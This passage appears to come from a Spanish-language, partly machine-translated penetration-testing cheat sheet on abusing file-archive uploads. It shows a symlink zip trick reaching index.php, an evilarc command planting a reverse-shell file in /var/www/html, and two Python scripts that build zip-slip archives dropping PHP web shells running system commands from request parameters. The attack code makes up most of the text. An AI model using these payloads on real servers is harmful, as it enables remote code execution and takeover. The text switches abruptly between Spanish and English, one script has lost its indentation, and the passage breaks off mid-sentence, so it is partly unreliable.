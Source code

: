 ## Symlink

Carga un enlace que contenga enlaces simbólicos a otros archivos, luego, al acceder a los archivos descomprimidos, accederás a los archivos vinculados:
```text
ln -s ../../../index.php symindex.txt
zip --symlinks test.zip symindex.txt
```
## Descomprimir en diferentes carpetas

Los archivos descomprimidos se crearán en carpetas inesperadas.

Uno podría asumir fácilmente que esta configuración protege contra la ejecución de comandos a nivel de sistema operativo a través de cargas de archivos maliciosos, pero desafortunadamente esto no es cierto. Dado que el formato de archivo ZIP admite compresión jerárquica y también podemos hacer referencia a directorios de niveles superiores, podemos escapar del directorio de carga seguro abusando de la función de descompresión de la aplicación objetivo.

Se puede encontrar un exploit automatizado para crear este tipo de archivos aquí: [https://github.com/ptoomey3/evilarc](https://github.com/ptoomey3/evilarc)
```python
python evilarc.py -o unix -d 5 -p /var/www/html/ rev.php
```
```python
import zipfile

def create_malicious_zip(file_path, payload):
    with zipfile.ZipFile(file_path, 'w') as zip_file:
        zip_file.writestr('../payload.php', payload)

file_path = 'malicious.zip'
payload = '<?php system($_GET["cmd"]); ?>'

create_malicious_zip(file_path, payload)
```

This Python code creates a malicious zip file that contains a PHP payload. The payload is a PHP script that executes a system command specified in the `cmd` parameter of a GET request. The zip file is created using the `zipfile` module, and the `writestr` method is used to add the payload to the zip file with a file path that includes directory traversal (`../`) to escape the intended directory. The resulting zip file can be used for various malicious purposes, such as remote code execution or command injection.
```python
#!/usr/bin/python
import zipfile
from cStringIO import StringIO

def create_zip():
f = StringIO()
z = zipfile.ZipFile(f, 'w', zipfile.ZIP_DEFLATED)
z.writestr('../../../../../var/www/html/webserver/shell.php', '<?php echo system($_REQUEST["cmd"]); ?>')
z.writestr('otherfile.xml', 'Content of the file')
z.close()
zip = open('poc.zip','wb')
zip.write(f.getvalue())
zip.close()

create_zip()
```
Para lograr la ejecución remota de comandos, seguí los siguientes pasos:
